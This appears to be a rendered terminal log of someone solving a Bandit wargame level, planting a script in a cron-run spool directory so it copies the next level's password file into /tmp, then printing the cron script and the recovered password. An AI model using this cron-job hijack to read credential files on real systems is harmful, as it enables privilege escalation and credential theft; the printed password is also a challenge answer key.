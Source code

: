 ```bash

bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.65XRzdzv59
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.AKHXJUtTS9
-bash: cd: /tmp/tmp.AKHXJUtTS9: Not a directory
bandit23@bandit:/etc/cron.d$ cd /tmp/
bandit23@bandit:/tmp$ nano scriptYa.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp$ nano scriptYa.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga: command not found
bandit23@bandit:/tmp$ /tmp/tmp.AKHXJUtTS9
-bash: /tmp/tmp.AKHXJUtTS9: Permission denied
bandit23@bandit:/tmp$ cd /tmp/tmp.AKHXJUtTS9
-bash: cd: /tmp/tmp.AKHXJUtTS9: Not a directory
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ ls -l
ls: cannot open directory '.': Permission denied
bandit23@bandit:/tmp$ chmod +x scriptYa.sh
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/scriptYa.sh': Operation not permitted
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo/nuevo.sh
bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
```